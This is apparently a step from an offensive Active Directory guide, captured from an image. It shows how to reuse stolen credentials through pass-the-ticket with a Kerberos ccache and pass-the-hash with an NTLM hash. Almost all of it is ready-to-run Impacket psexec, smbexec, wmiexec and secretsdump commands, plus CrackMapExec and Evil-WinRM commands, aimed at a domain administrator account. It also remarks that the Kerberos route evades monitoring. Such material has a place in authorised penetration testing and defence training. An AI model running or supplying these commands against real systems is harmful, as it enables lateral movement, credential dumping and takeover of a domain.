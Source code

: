### Step 21: Using Retrieved Credentials

#### Credential Types You Get:

| Type | File | Use Case |
|------|------|----------|
| **TGT (Kerberos Ticket)** | `user.ccache` | Kerberos authentication (Pass-the-Ticket) |
| **NTLM Hash** | (in output) | Pass-the-Hash attacks |

---

#### Using TGT (Kerberos Ticket):

**Export to environment:**
```bash
export KRB5CCNAME=/path/to/administrator.ccache
```

**Use with Impacket:**
```bash
# PSExec with Kerberos
psexec.py -k -no-pass 'administrator@dc01.corp.local'

# SMBExec
smbexec.py -k -no-pass 'administrator@dc01.corp.local'

# WMIExec
wmiexec.py -k -no-pass 'administrator@dc01.corp.local'

# SecretsDump
secretsdump.py -k -no-pass 'administrator@dc01.corp.local'
```

**Advantages:**
- No NTLM authentication (stealthier)
- Works even if NTLM disabled
- Kerberos is less monitored

---

#### Using NTLM Hash:

```bash
# Extract hash from certipy auth output
# Hash format: LM:NT
# LM part: aad3b435b51404eeaad3b435b51404ee (empty LM hash)
# NT part: 8846f7eaee8fb117ad06bdd830b7586c (actual hash)

# Use NT part only:
NTLM_HASH="8846f7eaee8fb117ad06bdd830b7586c"

# Pass-the-Hash
psexec.py -hashes ":$NTLM_HASH" 'administrator@192.168.1.10'

# CrackMapExec
crackmapexec smb 192.168.1.10 -u 'administrator' -H "$NTLM_HASH"

# Evil-WinRM (if WinRM enabled)
evil-winrm -i 192.168.1.10 -u 'administrator' -H "$NTLM_HASH"
```

---